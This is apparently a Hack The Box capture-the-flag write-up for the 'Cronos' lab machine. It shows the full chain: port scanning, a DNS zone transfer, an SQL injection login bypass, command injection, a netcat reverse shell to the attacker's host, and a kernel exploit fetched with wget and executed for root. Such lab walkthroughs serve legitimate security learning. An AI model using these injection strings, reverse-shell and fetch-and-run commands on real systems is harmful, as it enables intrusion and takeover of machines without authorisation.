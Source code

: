 # Cronos -- hack the box

![AEpKkq.png](https://s2.ax1x.com/2019/03/14/AEpKkq.png)

## Introduction

Target machine: 10.10.10.13(OS: linux)

Kali linux: 10.10.16.44

## Enumeration

Firstly, detect the open ports:

```
nmap -sT -p- --min-rate 10000 -oA openports 10.10.10.13
```

![openports](https://github.com/neal1991/htb/blob/master/Cronos/openports.png)

3 ports is open, detect the detailed services:

```
namp -sV -sC -p22.53.80 -Pn -oA services 10.10.10.13
```

![services](https://github.com/neal1991/htb/blob/master/Cronos/services.png)

So we can conduct the relation of ports of ports and services as following:

port|service
---|---
53|DNS
22|ssh
80|http

## Exploitation

### http

As the target machine provides http service, try to access `http://10.10.10.13`

![default web](https://github.com/neal1991/htb/blob/master/Cronos/80.png)

Default apache web page, nothing new. So try to brute force `http://10.10.10.13/` with dirbuster. After brute force for a period time, we have not found anything new.

### DNS

As the target machine owns DNS service. It is common to check zone transfer with `dig`. As we can have a guess of the dns domain of `cronos.htb`. So zone transfer can be checked by:

```
dig axfr @10.10.10.13 cronos.htb
```

![dns](https://github.com/neal1991/htb/blob/master/Cronos/dns.png)

An interestring domain name `admin.cronos.htb` is found. So add an entry into `/etc/hosts`:

```
10.10.10.13    admin.cronos.htb
```

Try to access `admin.cronos.htb` in the browser, a login web page is displayed. Yep, it is what we want. It seems that the login is quite simple. Try to login with sql injection with the username of `admin ' or '1' = '1`, the password can be anything.

![login](https://github.com/neal1991/htb/blob/master/Cronos/login.png)

![pass](https://github.com/neal1991/htb/blob/master/Cronos/pass.png)

Magic! We are in. It seems that it is a network tool. However, it seems that it has exposed the ability to execute command remotely. Have a test of `8888&whoami`:

![whoami](https://github.com/neal1991/htb/blob/master/Cronos/whoami.png)

The result is `www-data`. Obviously, the command can executed properly. Now try to reverse the shell. Try to listen to port `1234` by nc in our kali:

```
nc -lvnp 1234
```

Then use the bash reverse shell command:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.44 1234 >/tmp/f
```

Wait for server second, shell is return. Wonderful!

![nc](https://github.com/neal1991/htb/blob/master/Cronos/nc.png)

Try to obtain a tty terminal:

```
python -c "import pty;pty.spawn('/bin/sh')"
```

Obviously, the user role can be obtained. Go the `home` folder and `ls`， then go into the user folder to get user.txt.

## Privilege escalation

It's time to get the root role. See the kernel of the target machine:

```
uname -a
```

Google linux kernel privilege escalation, find a [payload](https://www.exploit-db.com/exploits/44298)

![AEmLVK.png](https://s2.ax1x.com/2019/03/15/AEmLVK.png)

Server a http server to provide the payload, name it as exploit.c:

```
pythoon -m SimpleHTTPServer 80
```

There are serveal ways to provide http file services, including: php, apache, python, etc. Pyhton is quite convinient. Then download the `exploit.c` in the target machine:

```
wget http://10.10.16.22/exploit.c
```

Then try to compile it with gcc. Opps, gcc seems has not been installed in the target machine. In general, linux will install gcc. Whatever, compile the `exploit.c` in kali:

```
gcc exploit.c -o exploit
```

Remember to download the file from a folder with permission, just like `/tmp`:

```
cd /tmp
wget http://10.10.16.44/exploit
```

Make sure to have execution perssion by:

```
chmod +x exploit
```

Just execute it by `./exploit`. Wow, now see whoami.

![root](https://github.com/neal1991/htb/blob/master/Cronos/root.png)

## Conclusion

The target machine is quite straitforward. The basic point is the zone transfer of DNS exploit. And other steps is not difficult with basic knowledges including: sql injection, reverse shell, etc.




